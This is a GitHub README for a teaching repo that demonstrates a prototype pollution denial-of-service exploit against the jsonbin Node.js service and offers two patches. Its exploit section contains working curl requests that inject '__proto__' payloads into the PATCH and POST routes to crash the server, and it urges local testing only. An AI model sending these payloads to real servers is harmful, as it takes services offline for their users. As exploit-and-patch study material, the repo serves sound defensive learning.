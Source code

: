 # Prototype Pollution Exploit and Patching Example

This repo provides an DDoS attack example that exploit the prototype pollution vulnerability.

Two versions of patch code is also provided.

## Install and Usage

### Run the vulnerable code

- Dependencies: MongoDB, NodeJS, NPM
- Before installation, register your app with GitHub to obtain an authorization token using this [guide](https://docs.github.com/en/developers/apps/building-oauth-apps/creating-an-oauth-app).

- Project code with installation instructions: https://github.com/remy/jsonbin
- Follow the instruction in https://jsonbin.org to use the service.

### Run the patched code

1. Make sure that dependencies are installed (MongoDB, NodeJS, NPM). Also your app is registered with GitHub using this [guide](https://docs.github.com/en/developers/apps/building-oauth-apps/creating-an-oauth-app).
2. Download the code: `git clone https://github.com/kccarlos/prototypepollutionpatching.git`
2. Navigate to the project folder `cd prototypepollutionpatching/patchv1` or `cd prototypepollutionpatching/patchv2` (Two versions provided)
3. run `npm install`
4. Set the configurations in `.dev.env` before running. An example is provided in `example.env`

## Exploit the Vulnerability

***!!! Be ethical: do not exploit the real website. Please install and run the source code and try the following exploit on your own machine.***

**Vulnerability 1**: exploiting the `/Patch` route

```bash
curl -X POST http://[DOMAIN:PORT]/[GITHUB_USERNAME]/foo \
     -H 'authorization: token xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' \
     -d '{  }'

curl -X PATCH http://[DOMAIN:PORT]/[GITHUB_USERNAME]/foo \
   -H 'authorization: token xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' \
   -d '{ "__proto__" : { "toString" : "attack"} }'
```

**Vulnerability 2**: exploiting the `/Post` route

```bash

curl -X POST http://[DOMAIN:PORT]/[GITHUB_USERNAME]/__proto__/toString \
    -H 'authorization: token xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' \
    -d '"attack"'
```

After this attack, the server cannot response to requests. Therefore an DDos attack is completed.

## Patch Version 1

The vulnerable code is `undefsafe()` and `jsonmergepatch()` in `lib/routes/api.js`.

To fix this issue, we may add a checking command before these functions are called in `router.patch()`:

```javascript
for (var key in req.body) {
  if (req.body.hasOwnProperty('__proto__')) {
    return res.status(404).json(null);
  }
}
```

In `router.post()`, there is a easier way to fix the vulnerability: checking the URL of the request.

```javascript
if (req.path.includes('__proto__') ) {
  return res.status(404).json('Invalid input');
}
```

Code is available in `./patchv1`.

## Patch Version 2

We may patch the  vulnerability using `Object.prototype.freeze()`. First, we freeze the base object's prototype property before executing `undefsafe()` and `jsonmergepatch()` in both `router.patch()` and `router.post()` functions:

```javascript
Object.freeze(Object.prototype);
```

Now the server will not fail and cause DDoS due to the vulnerability in `/Patch` and `/Post`.

Full code is available in `./patchv2`.

